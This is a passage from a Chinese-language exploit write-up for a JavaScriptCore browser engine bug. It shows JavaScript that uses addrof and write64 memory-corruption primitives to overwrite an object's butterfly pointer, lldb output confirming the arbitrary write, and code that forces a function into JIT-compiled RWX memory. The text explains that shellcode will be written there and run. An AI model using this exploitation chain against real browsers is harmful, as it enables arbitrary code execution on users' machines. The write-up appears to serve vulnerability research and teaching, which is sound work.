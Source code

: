 再次运行：

```
test : function()`{`
        testObj = `{``}`;
        testObj[0] = 1.1;
        obj_addr = this.addrof(testObj);
        this.passGC();
        value = 0x11223344;
        this.write64(obj_addr+8, value);
`}`,
```

```
(lldb) run -i ../bug_191731/test/poc.js
&gt;&gt;&gt; describe(testObj)
Object: 0x108ab0100 with butterfly 0x11223344 (Structure 0x108a0d420:[Object, `{``}`, NonArrayWithDouble, Proto:0x108ab4000, Leaf]), StructureID: 1334
&gt;&gt;&gt;
```

看起来效果还不错，解决了写的问题，之后就需要考虑下写哪里的问题了，因为JIT会在内存中申请RWX的内存，所以可以构造一个JIT编译的function出来，然后找到代码的位置，将shellcode写进去，最后执行function就可以了。构造JIT Function：

```
getJITFunction : function ()`{`
        function target(num) `{`
            for (var i = 2; i &lt; num; i++) `{`
                if (num % i === 0) `{`
                    return false;
                `}`
            `}`
            return true;
        `}`

        for (var i = 0; i &lt; 1000; i++) `{`
            target(i);
        `}`
        for (var i = 0; i &lt; 1000; i++) `{`
            target(i);
        `}`
        for (var i = 0; i &lt; 1000; i++) `{`
            target(i);
        `}`
        return target;
`}`,
```

查看进程的内存访问权限，可以在另一个终端输入`vmmap [pid]`：

```
JS JIT generated code  00004e12a4201000-00004e12e4201000 [  1.0G    24K    24K    32K] rwx/rwx SM=PRV
```

可以看到JIT的内存访问权限是RWX。
